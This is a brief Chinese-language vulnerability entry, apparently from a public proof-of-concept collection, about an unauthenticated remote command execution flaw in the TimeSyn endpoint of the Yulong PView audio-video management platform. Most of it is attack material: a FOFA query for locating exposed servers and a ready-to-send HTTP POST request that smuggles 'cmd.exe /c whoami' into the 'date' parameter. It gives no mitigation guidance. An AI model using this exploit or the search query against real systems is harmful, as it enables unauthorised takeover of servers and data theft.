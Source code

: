 # 誉龙视音频综合管理平台TimeSyn存在远程命令执行漏洞

誉龙视音频综合管理平台TimeSyn存在远程命令执行漏洞，未经身份验证的远程攻击者在目标服务器上执行任意系统命令，可能导致服务器被完全控制、数据泄露或破坏，严重威胁系统安全。

## fofa

```javascript
body="PView 视音频管理平台"
```

## poc

```javascript
POST /index.php?r=Third/TimeSyn HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

cloudKey=0x0&date=|cmd.exe+/c+whoami+>+1.txt&time=1
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409162103838.png)